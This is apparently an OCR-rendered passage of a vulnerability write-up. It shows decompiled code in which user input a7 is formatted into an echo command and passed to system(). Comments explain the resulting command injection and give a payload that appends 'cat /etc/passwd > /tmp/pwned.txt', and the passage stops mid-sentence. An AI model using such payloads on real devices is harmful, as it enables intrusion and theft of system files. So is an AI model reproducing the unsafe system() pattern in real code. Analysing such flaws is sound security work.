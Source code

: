 ![](/Image/823g-6.png)

```apl
// v13: Buffer, size 5000 bytes (since sizeof(v13) is assumed 5000)
memset(v13, 0, sizeof(v13));
// Format and concatenate user input a7 into the command string
snprintf(v13, 4999, "echo '%s' >/var/hnaplog", a7);
// Execute the concatenated command string
system(v13);
// Attack principle:
// If an attacker can control the input parameter a7, they can exploit shell command separators (;, &, |, &&, ||, etc.)
// to terminate the original echo command and inject arbitrary system commands.

// Attack Payload Example:
// Suppose the attacker sends the following a7 content:

// test_log'; cat /etc/passwd > /tmp/pwned.txt; #
// Actual command executed:
// After snprintf concatenation, the v13 variable content will be:

// echo 'test_log'; cat /etc/passwd > /tmp/pwned.txt; #' >/var/hnaplog
// When system(v13) executes, the shell interprets it as three separate commands:

// echo 'test_log': Original echo command ends early and executes.
// cat /etc/passwd > /tmp/pwned.txt: Attacker-injected malicious command executes, copying the system password file to /tmp.
// # ' >/var/hnaplog: Everything after # is treated as a comment (depending on shell), disabling the original redirect, but the malicious command has already executed.

// This allows attackers to execute any command permitted by the device, including reading sensitive files,
```